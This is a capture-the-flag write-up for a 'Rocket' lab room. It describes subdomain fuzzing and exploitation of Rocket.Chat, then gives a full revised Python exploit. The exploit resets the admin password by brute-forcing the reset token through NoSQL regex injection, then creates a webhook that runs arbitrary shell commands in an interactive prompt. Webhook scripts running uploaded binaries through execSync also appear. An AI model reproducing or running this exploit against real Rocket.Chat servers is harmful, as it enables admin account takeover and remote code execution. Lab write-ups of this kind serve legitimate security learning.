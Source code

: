 # WIP: Rocket 

*Get ready for blast off!*

This room was a *quest*, many steps each a bit of effort. 

Scans revealed 22 and 80, on 80 you were redirected to 'rocket.thm', which a host entry needed to be created for.

There was just a brochureware site at that address, so with ffuf and scanning for subdomains (via `-H "Host: FUZZ.rocket.thm"`) the subdomain chat was found.

On chat.rocket.thm was, obviously, an instance of the Rocket Chat chat system. There is a few CVEs for this - the one I tried was https://www.exploit-db.com/exploits/49960, an exploit that can, with the email of an existing user and a target admin email account, reset passwords for these accounts via nosql injection to recover reset tokens, and then use the admin account to gain RCE via webhooks (the rocket chat webhook feature allows nodejs scripts).

The exploit by itself didn't work properly however - it could successfully reset passwords (changing them to `P@$$w0rd!1234`) but would fail when attempting to run the RCE. Examining the script, there were a few issues:

- first, resetting a password takes ages and it does this *twice*, once with the low priv user. This can be skipped by registering a user on the site then baking that user's password into the exploit and skipping the reset step. Though this might be unnecessary as its only purpose seems to be to get a OTP token.
- as just alluded to, the script assumes the site and the admin is protected by MFA. This is not the case for this room. Accordingly all the secret and code stuff in the script can be removed, but importantly, within the RCE function, the payload sent to the auth endpoint should be changed from:

  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"totp\\":{\\"login\\":{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}},\\"code\\":\\"'+code+'\\"}}]}"}'
  ```
  
  to
  
  ```
  payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
  ```
- third, the rce execution doesn't work because it uses the wrong format for the nodejs script, compared to what rocketchat expects. specifically it tries to create an integration (webhook) with the following script:

  ```
  const require = console.log.constructor('return process.mainModule.require')();
  const { exec } = require('child_process');
  exec('+cmd+');
  ```
  
  this however is invalid. at this point I abandoned the exploit and using the reset admin credentials, modded the integration directly to follow this format:
  
  ```
  class Script
  {
    process_incoming_request() {
      const require = console.log.constructor('return process.mainModule.require')();
      const { execSync } = require('child_process');
      res = execSync('chmod +x /tmp/CR86Ge29yShsPuLFp && /tmp/CR86Ge29yShsPuLFp');
      return { error: { success: true, message: res.toString() } }
    }
  }
  ```
  this also changed some of the offsets used to find the token and id from the response
- finally, reading the output needed to be tweaked: since the result was in a message field, parsing the response as json then printing this field would get proper formatting.
  
Webhooks can be invoked by curl, and the full curl command is helpfully provided on the integrations page. Notably, in the above setup the output of the command is placed in the general chat channel, which isn't very stealthy. Alternatively using `return { error: { success: false, message: res.toString() } }` would output the error on the command line after curl. Also, bad failures of the script can be diagnosed in the logs (though the log will be full of errors from the token brute forcing, be warned).

With RCE, the box was enumerated slowly. Its a tied down docker container, with none of the common tools. To upload I changed rocket chats settings to use the file system and /tmp folder, and then uploaded files into chat. They would be placed in /tmp with random file names, but were otherwise fine.

## Revised RocketChat Exploit

This is a modification of the exploit-db script. It should just require an admin email address (admin@rocket.thm) and a target (http://chat.rocket.thm)

```
#!/usr/bin/python

import requests
import string
import time
import hashlib
import json
import argparse

parser = argparse.ArgumentParser(description='RocketChat 3.12.1 RCE')
parser.add_argument('-a', help='Administrator email', default='admin@rocket.thm')
parser.add_argument('-t', help='URL (Eg: http://rocketchat.local)', default='http://chat.rocket.thm')
parser.add_argument('-p', help='Password to set (default is P@$$w0rd!1234)', default=b'P@$$w0rd!1234')
args = parser.parse_args()

adminmail = args.a
target = args.t
passToSet = args.p

def forgotpassword(email,url):
	payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"sendForgotPasswordEmail\\",\\"params\\":[\\"'+email+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/sendForgotPasswordEmail", data = payload, headers = headers, verify = False, allow_redirects = False)
	print("[+] Password Reset Email Sent")

def resettoken(url):
	u = url+"/api/v1/method.callAnon/getPasswordPolicy"
	headers={'content-type': 'application/json'}
	token = ""

	num = list(range(0,10))
	string_ints = [str(int) for int in num]
	characters = list(string.ascii_uppercase + string.ascii_lowercase) + list('-')+list('_') + string_ints

	while len(token)!= 43:
		for c in characters:
			payload='{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"getPasswordPolicy\\",\\"params\\":[{\\"token\\":{\\"$regex\\":\\"^%s\\"}}]}"}' % (token + c)
			r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
			time.sleep(0.5)
			if 'Meteor.Error' not in r.text:
				token += c
				print(f"Got: {token}")

	print(f"[+] Got token : {token}")
	return token

def changingpassword(url,token):
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"resetPassword\\",\\"params\\":[\\"'+token+'\\",\\"'+passToSet+'\\"]}"}'
	headers={'content-type': 'application/json'}
	r = requests.post(url+"/api/v1/method.callAnon/resetPassword", data = payload, headers = headers, verify = False, allow_redirects = False)
	if "error" in r.text:
		exit("[-] Wrong token")
	print("[+] Admin Password was changed !")
	
def auth(url):
	# Authenticating
	sha256pass = hashlib.sha256(passToSet).hexdigest()
	headers={'content-type': 'application/json'}
	payload = '{"message":"{\\"msg\\":\\"method\\",\\"method\\":\\"login\\",\\"params\\":[{\\"user\\":{\\"username\\":\\"admin\\"},\\"password\\":{\\"digest\\":\\"'+sha256pass+'\\",\\"algorithm\\":\\"sha-256\\"}}]}"}'
	r = requests.post(url + "/api/v1/method.callAnon/login",data=payload,headers=headers,verify=False,allow_redirects=False)
	if "error" in r.text:
		return False
	data = json.loads(r.text)
	data =(data['message'])
	userid = data[32:49]
	token = data[60:103]
	return userid,token

def rce(url,userid,token,cmd):
	# Creating Integration
	payload = '{"enabled":true,"channel":"#general","username":"admin","name":"rce","alias":"","avatarUrl":"","emoji":"","scriptEnabled":true,"script":"class Script { process_incoming_request() { const require = console.log.constructor(\'return process.mainModule.require\')(); const { execSync } = require(\'child_process\'); res = execSync(\''+cmd+'\'); return { error: { sucess: true, message: res.toString() } } } }","type":"webhook-incoming"}'
	cookies = {'rc_uid': userid,'rc_token': token}
        headers = {'X-User-Id': userid,'X-Auth-Token': token}
        r = requests.post(url+'/api/v1/integrations.create',cookies=cookies,headers=headers,data=payload)
	data = r.text
	data = data.split(',')
	token = data[14]
	token = token[9:57]
	_id = data[20]
	_id = _id[7:24]

	# Triggering RCE
	u = url + '/hooks/' + _id + '/' +token
	r = requests.get(u)
	res = json.loads(r.text)
        print(res["message"])

############################################################

authRes = auth(target)
if authRes == False:
	## Sending Reset mail
	print(f"[+] Resetting {adminmail} password")
	forgotpassword(adminmail,target)

	## Getting reset token
	token = resettoken(target)

	## Resetting Password
	changingpassword(target,token)
	
	print("[+] authenticating as admin")
	authRes = auth(target)
	if authRes == False:
		print("[-] failed to auth")
		exit

## Authenticating and triggering rce

while True:
	cmd = input("CMD:> ")
	try:
		rce(target,authRes[0],authRes[1],cmd)
	except:
		print("command failed")
```
